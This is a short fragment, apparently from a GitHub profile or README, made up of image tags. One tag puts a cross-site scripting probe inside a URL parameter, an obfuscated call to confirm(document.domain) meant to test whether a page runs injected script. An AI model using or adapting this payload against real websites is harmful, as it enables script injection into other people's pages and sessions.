 <imgsrc='https://github.com/MaxPfaeffli/hi?path=epic.svg'> 
<imgsrc='https://cdn.discordapp.com/emojis/699716008532770866.gif'>
<imgsrc='https://github.com/MaxPfaeffli/hi?path=1"-top["con\x66irm"](document.domain)-"'>

